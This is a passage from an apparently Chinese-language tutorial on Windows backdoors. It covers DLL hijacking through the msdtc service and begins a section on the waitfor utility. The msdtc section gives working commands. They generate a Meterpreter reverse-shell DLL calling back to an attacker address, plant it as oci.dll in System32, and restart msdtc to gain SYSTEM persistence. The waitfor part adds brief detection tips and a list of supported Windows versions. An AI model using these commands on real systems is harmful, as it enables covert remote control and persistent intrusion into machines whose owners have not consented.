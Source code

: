 设置如下：  
![](http://www.0-sec.org/%E5%AE%89%E5%85%A8%E6%8A%80%E6%9C%AF/Windows%E5%90%8E%E9%97%A8/img/8.png)

### 0x13 域环境下的 msdtc

msdtc.exe 存在于组环境和域环境中

![](https://img2020.cnblogs.com/blog/1561366/202004/1561366-20200418224048267-701840535.png)

```
#生成dll木马文件
msfvenom -p windows/x64/meterpreter/reverse\_tcp LHOST=192.168.1.7 LPORT=8888 -f dll > oci.dll

#将刚才生成的 oci.dll 上传到目标机器的 C:\\Windows\\System32 目录下
$upload oci.dll C:\\\\Windows
$shell
C:\\Windows>move oci.dll c:\\Windows\\System32

#使用命令关闭msdtc进程
taskkill /f /im msdtc.exe

#重启msdtc
net start msdtc

#为了获得system权限，可采用降权启动，使用命令
msdtc -install


```

详细内容阅读：[http://hackergu.com/power-msdtc/](http://hackergu.com/power-msdtc/)

### 0x14 waitfor

不支持自启动，但可远程主动激活，后台进程显示为 waitfor.exe

优点：远程主动激活  
缺点：有 waitfor 进程  
排查：通过 Process Explorer 工具查看是否有 waitfor.exe 进程，并进一步查看启动参数等。

支持系统：

```
Windows Server 2003
Windows Vista
Windows XP
Windows Server 2008
Windows 7
Windows Server 2003 with SP2
Windows Server 2003 R2
Windows Server 2008 R2
Windows Server 2000
Windows Server 2012
Windows Server 2003 with SP1
Windows 8
Windows 10
其他Server系统未测试，理论上支持


```
